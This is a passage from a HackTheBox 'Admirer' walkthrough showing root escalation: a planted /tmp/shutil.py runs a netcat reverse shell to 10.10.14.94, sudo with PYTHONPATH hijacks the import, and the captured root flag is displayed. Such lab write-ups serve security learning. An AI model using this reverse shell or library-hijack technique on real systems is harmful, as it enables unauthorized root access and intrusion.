 ```

```
waldo@admirer:/opt/scripts$ nano /tmp/shutil.py
import os 

def make_archive(a, b, c):
	os.system('nc 10.10.14.94 4444 -e "/bin/sh"')

```

Then we can run the script with the **PYTHONPATH** env variable which determinate where to search the imported libraries with the following command:

```waldo@admirer:/opt/scripts$ sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh```

Before running the command, get the netcat ready to receive the prompt:

```
nc -lvnp 4444
```

Run admin_tasks.sh and the option 6:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/admirer/13_pre_root.png" width="500"/>
</p>


Then we take into the netcat and finish the task:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/admirer/13_root.png" width="500"/>
</p>

```
root@admirer:~# cat root.txt    
cat root.txt
5fbc13d34c715f7da061cb8be903ed22
```